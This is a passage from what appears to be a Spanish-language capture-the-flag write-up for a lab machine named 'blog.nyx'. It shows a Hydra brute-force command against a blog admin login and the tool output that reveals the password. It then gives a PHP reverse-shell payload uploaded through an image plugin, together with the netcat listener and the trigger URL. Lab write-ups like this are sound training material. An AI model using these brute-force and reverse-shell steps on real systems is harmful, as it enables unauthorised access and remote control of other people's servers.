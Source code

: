 ## Escalate user www-data

### Hydra

```shell
hydra -l admin -P <WORDLIST> blog.nyx http-post-form "/my_weblog/admin.php:username=^USER^&password=^PASS^:Incorrect" -F -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-17 03:45:07
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking http-post-form://192.168.5.82:80/my_weblog/admin.php:username=^USER^&password=^PASS^:Incorrect
[STATUS] 75.00 tries/min, 75 tries in 00:01h, 14344324 to do in 3187:38h, 64 active
[STATUS] 56.00 tries/min, 168 tries in 00:03h, 14344231 to do in 4269:07h, 64 active
[80][http-post-form] host: 192.168.5.82   login: admin   password: kisses
[STATUS] attack finished for 192.168.5.82 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-17 03:50:50
```

Veremos que hemos obtenido las credenciales de dicho usuario, si nos `logueamos` con dichas credenciales veremos que funcionan.

Vamos a irnos a un `plugin` de la pagina llamado `My images` que dentro en la configuracion veremos que podremos subir una imagen, por lo que vamos a crear un archivo `PHP` y subirlo a ver si funciona.

> shell.php

```php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

Ahora le daremos a `Brows...` seleccionamos la imagen, y le daremos a `Save Changue`, echo esto haremos lo siguiente:

Vamos a ponernos a la escucha.

```shell
nc -lvnp <PORT>
```

Ahora si nos vamos a la siguiente ruta para cargar todas las imagenes y volvemos a donde tenemos la escucha veremos lo siguiente:

```
URL = http://blog.nyx/content/private/plugins/my_image/image.php
```
